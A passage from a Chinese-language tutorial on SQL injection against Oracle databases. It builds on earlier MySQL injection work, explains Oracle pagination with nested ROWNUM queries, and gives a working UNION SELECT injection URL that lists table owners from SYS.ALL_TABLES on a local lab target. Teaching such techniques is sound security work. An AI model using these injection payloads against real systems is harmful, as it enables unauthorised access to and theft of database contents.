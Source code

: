 根据我们之前注入 Mysql 的经验，我们现在要尽可能多的去获取服务器信息和数据库，比如数据库版本、权限等。

在讲 Mysql 注入的时候已经说道要合理利用工具，在 Navicat 客户端执行`select * from session_roles`结果：
￼
![enter image description here](img/img8_u79_png.jpg)

##### Oracle 查询分页 tips：

不得不说 Oracle 查询分页的时候没有 Mysql 那么方便，Oracle 可不能 limit 0,1 而是通过三层查询嵌套的方式实现分页(查询第一条数据“>=0<=1”取交集不就是 1 么？我数学 5 分党，如果有关数学方面的东西讲错了各位莫怪)：

```
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <= 1 ) WHERE RN >= 0 
```

![enter image description here](img/img9_u65_png.jpg)

在 Oracle 里面没有类似于 Mysql 的 group_concat,用分页去取数据，不过有更加简单的方法。

##### 用 UNION SELECT 查询：

```
http://localhost/SqlInjection/index.jsp?id=1 UNION ALL SELECT NULL, NULL, NULL, NVL(CAST(OWNER AS VARCHAR(4000)),CHR(32)) FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)-- 
```
